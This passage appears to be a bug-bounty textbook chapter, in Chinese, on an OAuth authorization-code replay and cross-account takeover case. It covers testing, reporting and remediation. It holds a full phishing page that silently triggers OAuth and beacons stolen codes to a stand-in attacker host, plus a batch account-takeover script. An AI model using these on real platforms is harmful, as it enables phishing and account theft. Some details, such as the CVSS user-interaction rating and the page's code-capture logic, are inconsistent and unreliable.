



## 27.6 案例五：SaaS平台OAuth认证绕过

> **难度**：★★★★☆（高级） | **赏金**：$20,000 | **漏洞类型**：CWE-287（认证绕过）+ CWE-610（外部控制引用） | **CVSS 3.1**：9.1（严重）

### 27.6.1 目标背景

某SaaS协作平台通过HackerOne发布了漏洞奖励计划，奖金范围从$500（低危）到$30,000（严重）。该平台提供项目管理、文档协作、团队沟通等功能，拥有超过100万活跃用户，服务数千家企业客户。

**为什么OAuth漏洞是Bug Bounty的高价值目标？**

OAuth 2.0已成为现代Web应用的事实标准认证协议。根据OWASP 2025年Top 10，"Broken Authentication"持续位居安全风险前列。OAuth实现中的缺陷往往直接影响所有使用第三方登录的用户，攻击面广、影响面大、赏金高。据统计，HackerOne平台上OAuth相关漏洞的平均赏金比一般Web漏洞高出40%以上。

**OAuth 2.0核心概念速览**

OAuth 2.0授权框架（RFC 6749）定义了四种授权模式，SaaS平台通常使用其中两种：

| 模式 | 适用场景 | 安全等级 | 典型实现 |
|------|----------|----------|----------|
| Authorization Code | 服务端Web应用 | ★★★★★ 最高 | 标准OAuth登录流程 |
| PKCE（Proof Key） | SPA/移动应用 | ★★★★★ 最高 | Authorization Code + 代码挑战 |
| Implicit | 已废弃 | ★★☆☆☆ 低 | 早期SPA直接获取Token |
| Client Credentials | 服务间通信 | ★★★★☆ 高 | API密钥交换 |

本案例涉及的是**Authorization Code模式**——最常用也最容易出错的模式。

**Authorization Code模式的完整流程**



这个流程中有**五个关键安全校验点**，任何一个实现不当都可能导致认证绕过：

1. **redirect_uri校验**：必须精确匹配预注册地址
2. **state参数**：必须使用加密随机值并验证，防CSRF
3. **授权码一次性**：必须用后即废，防重放攻击
4. **授权码绑定**：必须与client_id和redirect_uri绑定
5. **Token绑定**：必须与授权会话绑定，防跨账户使用

### 27.6.2 侦察阶段

#### 第一步：功能探索与攻击面映射

注册两个测试账户（attacker@test.com和victim@test.com），全面探索平台功能。注意到平台支持以下第三方登录：

- Google OAuth 2.0
- GitHub OAuth
- Microsoft Azure AD
- SAML SSO（企业版）

```mermaid
graph TD
    A[攻击面映射] --> B[第三方登录入口]
    A --> C[API端点]
    A --> D[权限模型]
    B --> B1[Google OAuth 2.0]
    B --> B2[GitHub OAuth]
    B --> B3[Microsoft Azure AD]
    B --> B4[SAML SSO]
    C --> C1[/api/v1/users/*]
    C --> C2[/api/v1/projects/*]
    C --> C3[/oauth/* 端点]
    D --> D1[个人账户]
    D --> D2[团队管理员]
    D --> D3[企业管理员]
```

**攻击面优先级评估**：OAuth端点是认证基础设施的一部分，一旦突破影响全平台用户，因此优先级最高。

#### 第二步：OAuth流程深度分析

使用Burp Suite拦截Google OAuth登录流程，完整记录每个请求和响应：

```text
# 阶段1：发起OAuth请求
GET /oauth/google/authorize?
  redirect_uri=https://app.example.com/oauth/callback&
  response_type=code&
  client_id=google_client_id_12345&
  scope=openid email profile&
  state=a1b2c3d4e5f6

# 阶段2：Google返回授权页面（302重定向）
HTTP/1.1 302 Found
Location: https://accounts.google.com/o/oauth2/v2/auth?
  client_id=google_client_id_12345&
  redirect_uri=https://app.example.com/oauth/callback&
  response_type=code&
  scope=openid email profile&
  state=a1b2c3d4e5f6

# 阶段3：用户授权后，Google回调
GET /oauth/callback?
  code=4/0AeaYSHC0_test_auth_code_xxxxx&
  state=a1b2c3d4e5f6

# 阶段4：服务端用code换Token（此请求不可从浏览器捕获）
POST https://oauth2.googleapis.com/token
  code=4/0AeaYSHC0_test_auth_code_xxxxx&
  client_id=google_client_id_12345&
  client_secret=GOOGLE_CLIENT_SECRET&
  redirect_uri=https://app.example.com/oauth/callback&
  grant_type=authorization_code

# 阶段5：Token交换响应
HTTP/1.1 200 OK
{
  "access_token": "ya29.a0AfH6SMB_xxxxx",
  "token_type": "Bearer",
  "expires_in": 3600,
  "refresh_token": "1//0gx_xxxxx",
  "id_token": "eyJhbGciOiJSUzI1NiJ9.xxxxx"
}
```

**关键观察**：

- client_id是公开的（浏览器可见），这不是漏洞
- client_secret仅在服务端使用，不应暴露
- authorization_code通过URL参数传递，可能被中间人截获
- state参数的生成模式需要进一步分析
- redirect_uri是攻击的核心目标之一

#### 第三步：state参数安全性评估

收集多次登录的state值，分析其生成模式：

```text
# 样本采集（10次登录请求）
请求#1: state=a1b2c3d4e5f6
请求#2: state=b2c3d4e5f6a7
请求#3: state=c3d4e5f6a7b8
请求#4: state=d4e5f6a7b8c9
请求#5: state=e5f6a7b8c9d0
请求#6: state=f6a7b8c9d0e1
请求#7: state=a7b8c9d0e1f2
请求#8: state=b8c9d0e1f2a3
请求#9: state=c9d0e1f2a3b4
请求#10: state=d0e1f2a3b4c5
```

**模式分析**：

| 检查项 | 结果 | 风险等级 |
|--------|------|----------|
| 长度 | 固定12字符 | 中 |
| 字符集 | hex（0-9, a-f） | 中 |
| 随机性 | 有明显递增模式 | 🔴 高 |
| 是否与用户关联 | 无关联 | 🟡 中 |
| 服务端验证 | 未观察到校验逻辑 | 🔴 高 |

**关键发现**：state参数虽然看似"随机"，但呈现出可预测的递增模式。这种模式可能基于时间戳或递增计数器，而非加密安全的随机数生成器（CSPRNG）。进一步测试确认了state参数可以被暴力预测，但这一发现的严重程度低于后续的授权码漏洞。

### 27.6.3 漏洞发现过程

#### 测试一：redirect_uri校验绕过

redirect_uri是OAuth安全的第一道防线。如果校验不严格，攻击者可以将授权码重定向到自己的服务器。

**测试矩阵**：

| 测试编号 | payload | 预期结果 | 实际结果 | 说明 |
|----------|---------|----------|----------|------|
| T1 | `https://app.example.com/oauth/callback` | 通过 | ✅ 通过 | 合法地址 |
| T2 | `https://app.example.com/oauth/callback/../attacker` | 拒绝 | ❌ 拒绝 | 路径遍历被过滤 |
| T3 | `https://app.example.com/oauth/callback?evil=https://attacker.com` | 拒绝 | ❌ 拒绝 | 参数注入被过滤 |
| T4 | `https://evil.app.example.com/oauth/callback` | 拒绝 | ❌ 拒绝 | 子域名白名单生效 |
| T5 | `https://app.example.com/oauth/callback#` | 拒绝 | ✅ 通过 | ⚠️ URL片段未被校验 |
| T6 | `https://app.example.com/OAuth/Callback` | 拒绝 | ✅ 通过 | ⚠️ 大小写未校验 |
| T7 | `https://app.example.com/oauth/callback?state=foo` | 拒绝 | ✅ 通过 | ⚠️ 额外参数未校验 |

**关键发现**：redirect_uri校验存在多个绕过点：

1. **URL片段绕过**：`#`之后的内容被忽略，但服务器端的字符串比较未考虑这一点
2. **大小写不敏感**：URL路径的大小写差异未被检测
3. **参数污染**：允许在redirect_uri中附加额外参数

**影响分析**：虽然这些绕过点本身不直接导致授权码泄露（因为浏览器端的重定向仍然到达合法域名），但它们破坏了OAuth协议的完整性假设，可能在特定组合攻击中被利用。

```text
# 绕过原理图
┌─────────────────────────────────────────────────┐
│              redirect_uri校验逻辑                 │
│                                                   │
│  输入: https://app.example.com/oauth/callback#    │
│                                                   │
│  简单比较:                                         │
│    "https://app.example.com/oauth/callback#"      │
│    vs                                             │
│    "https://app.example.com/oauth/callback"       │
│    → 不匹配？实际上部分实现会忽略#之后的内容       │
│                                                   │
│  安全比较应该:                                     │
│    1. 解析URL为组件                               │
│    2. 忽略fragment部分                             │
│    3. 逐组件精确匹配                               │
│    4. 拒绝任何额外参数                             │
└─────────────────────────────────────────────────┘
```

#### 测试二：state参数绕过

通过分析state参数的生成模式，确认其可预测性：

```text
# 采集时间戳关联数据
时间戳               state值
2025-03-15 10:00:01  a1b2c3d4e5f6
2025-03-15 10:00:02  a1b2c3d4e5f7
2025-03-15 10:00:03  a1b2c3d4e5f8
2025-03-15 10:00:04  a1b2c3d4e5f9
```

state参数基于时间戳的低位字节递增，这意味着攻击者可以在授权回调到达时预测正确的state值。不过，state绕过的实际利用需要同时控制redirect_uri和网络环境，因此单独利用的难度较高。

#### 测试三：授权码重放攻击

**这是本案例的核心漏洞。**

OAuth 2.0规范（RFC 6749 第4.1.2节）明确规定：

> "The authorization code MUST be single-use. If the authorization server observes multiple attempts to exchange the authorization code, the authorization server SHOULD revoke all tokens previously issued based on that authorization code."

```text
# 授权码重放测试

## 步骤1：正常登录获取授权码
POST /oauth/google/token
  code=LEGITIMATE_AUTH_CODE_001&
  redirect_uri=https://app.example.com/oauth/callback

## 响应1：成功
HTTP/1.1 200 OK
{
  "access_token": "valid_token_for_attacker",
  "token_type": "Bearer",
  "expires_in": 3600
}

## 步骤2：使用相同的授权码再次请求
POST /oauth/google/token
  code=LEGITIMATE_AUTH_CODE_001&
  redirect_uri=https://app.example.com/oauth/callback

## 响应2：仍然成功！
HTTP/1.1 200 OK
{
  "access_token": "new_token_for_attacker_2",
  "token_type": "Bearer",
  "expires_in": 3600
}
```

**漏洞根因分析**：



**缺少"标记code为已使用"这一步**，导致同一个code可以无限次使用。攻击者可以通过CSRF等方式捕获受害者的授权码，然后用自己已登录的会话反复使用该code，获取多个有效的access_token。

#### 测试四：授权码跨账户使用

**这是本案例最严重的漏洞——直接导致账户接管。**

```text
# 跨账户授权码使用测试

## 步骤1：受害者用Google账户登录
## （通过社会工程或钓鱼获取授权码）
## 授权码来自victim的Google账号授权

## 步骤2：攻击者用自己的会话（已登录attacker账户）
POST /oauth/google/token
  code=VICTIM_AUTH_CODE_001&
  redirect_uri=https://app.example.com/oauth/callback

## 服务端行为分析：
##   1. 验证code → 有效（未被使用过）
##   2. 验证client_id → 匹配
##   3. 验证redirect_uri → 匹配
##   4. 返回Token → ✅ 成功！

## 响应：攻击者获得了victim的访问令牌
HTTP/1.1 200 OK
{
  "access_token": "victim_access_token",
  "token_type": "Bearer",
  "expires_in": 3600
}

## 步骤3：用获取的Token访问victim的数据
GET /api/v1/users/me
Authorization: Bearer victim_access_token

## 响应：返回victim的用户信息
{
  "id": "user_12345",
  "email": "victim@test.com",
  "name": "受害者姓名",
  "role": "admin",
  "teams": ["team_a", "team_b"]
}
```

**漏洞根因深度分析**：

正常实现中，授权码必须与以下要素绑定：

| 绑定要素 | 正确实现 | 本平台实现 | 风险 |
|----------|----------|------------|------|
| client_id | ✅ 验证 | ✅ 验证 | — |
| redirect_uri | ✅ 验证 | ✅ 验证 | — |
| 授权会话/session | ✅ 绑定 | ❌ 未绑定 | 🔴 严重 |
| 用户身份 | ✅ 绑定 | ❌ 未绑定 | 🔴 严重 |
| 使用次数 | ✅ 限制1次 | ❌ 无限制 | 🔴 严重 |

攻击者使用自己会话中的client_id和redirect_uri调用token端点，服务端只验证了这两个参数，却没有验证授权码是否属于当前会话的用户。这导致**任何有效授权码都可以被任何已认证用户使用**。

### 27.6.4 深入利用：完整攻击链

#### 攻击场景一：社会工程 + 授权码窃取



**攻击者构造的钓鱼页面**：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>系统维护通知 - 请重新登录</title>
    <style>
        body {
            font-family: -apple-system, BlinkMacSystemFont, sans-serif;
            background: #f5f5f5;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .notice-card {
            background: white;
            border-radius: 12px;
            padding: 40px;
            max-width: 500px;
            box-shadow: 0 2px 12px rgba(0,0,0,0.1);
            text-align: center;
        }
        .notice-card h2 { color: #333; margin-bottom: 20px; }
        .notice-card p { color: #666; line-height: 1.6; }
        .spinner {
            border: 3px solid #f3f3f3;
            border-top: 3px solid #3498db;
            border-radius: 50%;
            width: 40px; height: 40px;
            animation: spin 1s linear infinite;
            margin: 20px auto;
        }
        @keyframes spin {
            0% { transform: rotate(0deg); }
            100% { transform: rotate(360deg); }
        }
        .status { color: #27ae60; font-weight: bold; }
    </style>
</head>
<body>
    <div class="notice-card">
        <h2>🔧 系统维护通知</h2>
        <p>尊敬的用户，平台正在进行安全升级，<br>请重新授权以继续使用。</p>
        <div class="spinner"></div>
        <p class="status">正在验证您的身份...</p>
    </div>

    <!-- 隐藏的OAuth触发器 -->
    <iframe id="oauth-frame"
            style="position:absolute; left:-9999px; width:1px; height:1px;"
            src="about:blank"></iframe>

    <script>
        // 攻击者服务器地址
        const C2_SERVER = 'https://attacker-c2.example.com';

        // 构造OAuth URL（使用合法的client_id）
        const oauthUrl = 'https://accounts.google.com/o/oauth2/v2/auth?' +
            'client_id=GOOGLE_CLIENT_ID&' +
            'redirect_uri=' + encodeURIComponent('https://app.example.com/oauth/callback') + '&' +
            'response_type=code&' +
            'scope=openid email profile&' +
            'state=' + generateState();

        function generateState() {
            // 生成伪随机state（实际攻击中可能使用可预测值）
            const arr = new Uint8Array(16);
            crypto.getRandomValues(arr);
            return Array.from(arr, b => b.toString(16).padStart(2, '0')).join('');
        }

        // 延迟触发，避免引起用户注意
        setTimeout(function() {
            document.getElementById('oauth-frame').src = oauthUrl;
        }, 2000);

        // 方法1：监听URL变化（如果回调页面加载在iframe中）
        let lastUrl = '';
        setInterval(function() {
            try {
                const currentUrl = window.location.href;
                if (currentUrl !== lastUrl) {
                    lastUrl = currentUrl;
                    const urlParams = new URLSearchParams(window.location.search);
                    const code = urlParams.get('code');
                    if (code) {
                        exfiltrateCode(code);
                    }
                }
            } catch(e) {}
        }, 500);

        // 方法2：通过postMessage获取（如果回调页面使用postMessage）
        window.addEventListener('message', function(event) {
            if (event.origin === 'https://app.example.com') {
                try {
                    const data = typeof event.data === 'string' ?
                        JSON.parse(event.data) : event.data;
                    if (data.code) {
                        exfiltrateCode(data.code);
                    }
                } catch(e) {}
            }
        });

        // 授权码外传
        function exfiltrateCode(code) {
            // 通过1x1像素图片发送（绕过CORS限制）
            new Image().src = C2_SERVER + '/collect?code=' +
                encodeURIComponent(code) + '&ts=' + Date.now();

            // 更新页面显示
            document.querySelector('.status').textContent = '✅ 验证成功！';
            document.querySelector('.spinner').style.display = 'none';
            setTimeout(function() {
                window.location.href = 'https://app.example.com';
            }, 1500);
        }
    </script>
</body>
</html>
```

**攻击流程时间线**：

```text
T+0s    攻击者发送钓鱼邮件（伪装为系统维护通知）
T+1s    受害者打开邮件，点击"重新登录"链接
T+2s    加载恶意页面，2秒后触发隐藏的OAuth iframe
T+3s    受害者看到"系统维护"页面（以为在等待）
T+5s    如果受害者之前已登录Google，自动跳过登录
T+6s    Google弹出授权请求（如果之前未授权过该App）
T+7s    受害者看到熟悉的App图标，点击"允许"
T+8s    授权码通过回调URL传递
T+9s    恶意页面捕获授权码并外传到C2服务器
T+10s   攻击者收到授权码
T+11s   攻击者用自己的会话使用受害者的授权码
T+12s   攻击者获得受害者的access_token
T+13s   攻击者可以完全访问受害者的账户
```

#### 攻击场景二：API层授权码捕获

如果受害者在使用平台API时触发OAuth（如生成个人访问令牌），授权码可能通过API响应或日志泄露：

```text
# 攻击者诱导受害者访问恶意构造的URL
https://app.example.com/api/v1/generate-token?
  provider=google&
  callback=https://attacker.com/log

# 如果API层未校验callback参数
# 授权码可能被重定向到攻击者服务器
```

#### 攻击场景三：授权码批量利用

由于授权码不绑定用户身份，攻击者可以：

1. 在公共WiFi环境下嗅探OAuth回调URL中的授权码
2. 批量收集不同用户的授权码
3. 逐个使用获取对应的access_token
4. 实现批量账户接管

```python
# 批量利用脚本（仅作概念演示）
import requests
import json

# 被窃取的授权码列表
captured_codes = [
    {"code": "VICTIM1_AUTH_CODE", "state": "state1"},
    {"code": "VICTIM2_AUTH_CODE", "state": "state2"},
    {"code": "VICTIM3_AUTH_CODE", "state": "state3"},
]

# 攻击者的认证会话
session = requests.Session()
session.cookies.set('session_id', 'attacker_session_token')

for entry in captured_codes:
    # 使用攻击者会话 + 受害者的授权码
    resp = session.post('https://app.example.com/oauth/google/token', data={
        'code': entry['code'],
        'redirect_uri': 'https://app.example.com/oauth/callback',
        'state': entry['state']
    })

    if resp.status_code == 200:
        token = resp.json().get('access_token')
        # 用获取的Token访问受害者数据
        user_resp = session.get(
            'https://app.example.com/api/v1/users/me',
            headers={'Authorization': f'Bearer {token}'}
        )
        print(f"[+] 成功接管: {user_resp.json().get('email')}")
    else:
        print(f"[-] 授权码失效: {entry['code'][:20]}...")
```

### 27.6.5 影响评估

#### CVSS 3.1评分

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N/RL:O/RC:C

基础评分：9.1（严重）

分解：
  攻击向量(AV): Network (N)       - 可通过网络远程利用
  攻击复杂度(AC): Low (L)          - 无需特殊条件
  所需权限(PR): None (N)           - 无需任何权限
  用户交互(UI): None (N)           - 无需用户交互（自动化攻击）
  影响范围(S): Changed (C)         - 超出安全边界
  机密性影响(C): High (H)          - 完全获取用户数据
  完整性影响(I): High (H)          - 可修改用户数据
  可用性影响(A): None (N)          - 不影响可用性
```

#### 业务影响分析

| 影响维度 | 严重程度 | 具体影响 |
|----------|----------|----------|
| 用户数据 | 🔴 致命 | 100万+用户的个人数据、项目数据面临泄露风险 |
| 企业客户 | 🔴 致命 | 数千家企业客户的内部文档、项目信息可能被窃取 |
| 声誉损害 | 🔴 严重 | SaaS平台安全信誉崩塌，客户流失 |
| 合规风险 | 🟡 中等 | 可能违反GDPR、SOC 2等数据保护法规 |
| 经济损失 | 🔴 严重 | 潜在的法律赔偿、客户退款、安全审计费用 |

### 27.6.6 报告提交

#### 报告结构

一份优秀的Bug Bounty报告应包含以下要素：

```text
报告标题：Critical - OAuth Authorization Code Reuse & Cross-Account
          Takeover via Authorization Code

报告结构：
├── 摘要（1-2句话说明漏洞和影响）
├── 漏洞详情
│   ├── 影响范围
│   ├── 复现步骤（逐步，可操作）
│   ├── 预期行为 vs 实际行为
│   └── 根因分析
├── 攻击场景
│   ├── 场景1：社会工程 + 账户接管
│   ├── 场景2：公共WiFi嗅探 + 批量接管
│   └── 场景3：API层利用
├── 影响评估
│   ├── CVSS评分
│   └── 业务影响
├── 修复建议
│   ├── 立即修复（P0）
│   ├── 短期加固（P1）
│   └── 长期架构优化（P2）
└── 附录
    ├── PoC代码
    └── 截图/视频证据
```

**报告开头摘要**：

> 该平台的OAuth 2.0授权码交换端点（/oauth/google/token）存在严重的认证绕过漏洞。攻击者可以：(1) 重复使用同一授权码获取多个Token；(2) 使用其他用户的授权码获取该用户的访问令牌。这两个漏洞组合可导致任意用户账户被完全接管，影响平台全部100万+活跃用户。

#### 修复建议

**立即修复（P0 - 24小时内）**：

```python
# 修复1：授权码一次性使用
class AuthorizationCode:
    def __init__(self):
        self.code = generate_crypto_random(32)
        self.used = False  # 标记是否已使用
        self.created_at = time.time()
        self.client_id = None
        self.redirect_uri = None
        self.user_id = None  # 绑定用户

    def exchange(self, request_client_id, request_redirect_uri, request_user_id):
        if self.used:
            raise InvalidGrantError("Authorization code already used")

        if self.client_id != request_client_id:
            raise InvalidGrantError("client_id mismatch")

        if self.redirect_uri != request_redirect_uri:
            raise InvalidGrantError("redirect_uri mismatch")

        if self.user_id != request_user_id:
            raise InvalidGrantError("User mismatch - cross-account use detected")

        if time.time() - self.created_at > 300:  # 5分钟过期
            raise InvalidGrantError("Authorization code expired")

        self.used = True  # 标记为已使用
        return self._generate_tokens()
```

**短期加固（P1 - 1周内）**：

```python
# 修复2：严格redirect_uri校验
def validate_redirect_uri(uri, registered_uris):
    """
    严格按照RFC 6749 Section 3.1.2.3校验redirect_uri
    """
    parsed = urlparse(uri)

    # 禁止fragment
    if parsed.fragment:
        raise InvalidRedirectUriError("Fragment not allowed in redirect_uri")

    # 精确匹配scheme和host
    scheme = parsed.scheme.lower()
    host = parsed.hostname.lower()
    path = parsed.path.rstrip('/')  # 移除末尾斜杠

    for registered in registered_uris:
        reg_parsed = urlparse(registered)
        if (reg_parsed.scheme.lower() == scheme and
            reg_parsed.hostname.lower() == host and
            reg_parsed.path.rstrip('/') == path and
            not parsed.query):  # 不允许额外参数
            return True

    raise InvalidRedirectUriError("redirect_uri not registered")

# 修复3：state参数安全生成
import secrets

def generate_state():
    """使用CSPRNG生成state参数"""
    return secrets.token_urlsafe(32)

def validate_state(state, stored_state):
    """比较state时使用常量时间比较，防止时序攻击"""
    import hmac
    if not state or not stored_state:
        raise CSRFError("Missing state parameter")
    if not hmac.compare_digest(state, stored_state):
        raise CSRFError("State mismatch - possible CSRF attack")
    return True
```

**长期架构优化（P2 - 1个月内）**：

| 优化项 | 说明 | 参考标准 |
|--------|------|----------|
| 实施PKCE | 对所有OAuth流程启用Proof Key for Code Exchange | RFC 7636 |
| Token绑定 | 使用DPoP（Demonstrating Proof-of-Possession）绑定Token | RFC 9449 |
| 授权码熵值 | 使用至少128位随机数作为授权码 | OWASP ASVS 3.5.2 |
| 审计日志 | 记录所有OAuth端点的请求日志，包含IP、User-Agent、时间戳 | SOC 2 |
| 频率限制 | 对token端点实施请求频率限制（如每IP每分钟10次） | 防暴力破解 |
| 多因素认证 | 对高敏感操作要求MFA | NIST SP 800-63B |

### 27.6.7 OAuth安全最佳实践清单

| 检查项 | 标准 | 风险等级 | 检查方法 |
|--------|------|----------|----------|
| redirect_uri精确匹配 | 仅允许预注册地址，无fragment/额外参数 | 🔴 严重 | Burp修改参数测试 |
| state参数安全 | CSPRNG生成，唯一性验证，常量时间比较 | 🟡 高 | 统计分析+重放测试 |
| 授权码一次性使用 | 使用后立即失效，数据库标记 | 🔴 严重 | 同code多次请求 |
| 授权码绑定 | 绑定client_id、redirect_uri、user_id | 🔴 严重 | 跨会话/跨账户测试 |
| 授权码有效期 | ≤5分钟，建议更短 | 🟡 高 | 延迟使用测试 |
| Token过期与刷新 | access_token短效，refresh_token安全存储 | 🟡 中 | Token生命周期分析 |
| Scope最小化 | 只请求必要权限 | 🟢 中 | Scope变更测试 |
| HTTPS强制 | 所有OAuth端点强制HTTPS | 🔴 严重 | HTTP降级测试 |
| 错误信息脱敏 | 不泄露敏感信息（如"用户不存在"） | 🟡 中 | 错误响应分析 |
| 日志与监控 | 记录所有异常OAuth行为 | 🟢 低 | 审计日志检查 |

### 27.6.8 漏洞修复与结果

**提交时间**：2025年3月15日

**平台响应时间线**：

| 时间 | 事件 |
|------|------|
| Day 0 | 提交漏洞报告 |
| Day 0 + 2h | 平台确认收到，开始调查 |
| Day 1 | 平台确认漏洞存在，开始修复 |
| Day 2 | P0修复上线：授权码一次性使用+用户绑定 |
| Day 3 | P1修复上线：redirect_uri严格校验+state强化 |
| Day 7 | 漏洞复测通过，确认修复有效 |
| Day 14 | 赏金发放 |

**最终结果**：漏洞被评定为**"严重"**级别，获得**$20,000**赏金。

**为什么是$20,000而非最高$30,000？**

平台的赏金评估考虑了以下因素：

| 因素 | 加分 | 扣分 |
|------|------|------|
| 影响范围（100万+用户） | ✅ | |
| 攻击复杂度（低） | ✅ | |
| 需要用户交互（社会工程） | | ⚠️ |
| 已有类似报告（授权码重放） | | ⚠️ |
| 完整攻击链（跨账户接管） | ✅ | |

### 27.6.9 本案例核心经验

**对Bug Bounty猎人的启示**：

1. **OAuth是金矿**：每个支持第三方登录的平台都值得深入测试，OAuth实现错误是常见且高价值的漏洞类型
2. **系统性测试**：不要只测试一个点，构建完整的测试矩阵（如本案例的redirect_uri测试矩阵），系统性覆盖所有攻击面
3. **组合拳思维**：单个漏洞（如redirect_uri绕过）可能只是低危，但组合利用（绕过+重放+跨账户）可以升级为严重
4. **深入理解规范**：OAuth 2.0规范（RFC 6749）是判断实现是否安全的唯一标准，熟读规范能帮你发现更多偏差
5. **PoC要完整**：从发现到利用的完整攻击链，配上可运行的PoC代码，是获得高赏金的关键
6. **修复建议要具体**：给出代码级的修复建议，展示专业性，也帮助平台更快修复，提升你在平台的信誉

**对开发者的安全建议**：

1. **不要自己实现OAuth**：使用经过审计的开源库（如Passport.js、Spring Security OAuth）
2. **遵循最小权限原则**：OAuth scope只请求必要的权限
3. **授权码必须一次性使用**：这是OAuth规范的强制要求
4. **授权码必须绑定上下文**：绑定client_id、redirect_uri、用户会话
5. **定期安全审计**：OAuth实现的安全审计应纳入常规安全流程
